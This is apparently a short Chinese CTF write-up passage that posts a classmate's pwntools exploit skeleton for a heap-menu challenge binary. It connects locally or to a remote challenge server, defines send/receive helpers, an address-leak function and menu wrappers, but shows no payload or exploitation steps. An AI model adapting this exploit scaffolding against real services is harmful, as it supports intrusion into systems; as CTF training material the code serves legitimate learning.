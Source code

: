 贴一下 **@PTT0** 学长的exp：

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'

if local:
    p=process("./"+binary_name)

else:
    p=remote('112.126.71.170',43652)
    e=ELF("./"+binary_name)


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
      
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("scenery\n",str(num))
def add(size):
    cho(1)
    sla("size:",str(size))
def delete(idx):
    cho(2)
    sla("idx:",str(idx))
def show(idx):
    cho(4)
    sla("idx:",str(idx))
def edit(idx,data):
    cho(3)
    sla("idx:",str(idx))
    sa("chat:",data)
def gift1(idx):
    cho(5)
    sla("idx",str(idx))
def gift2():
    cho(666)

```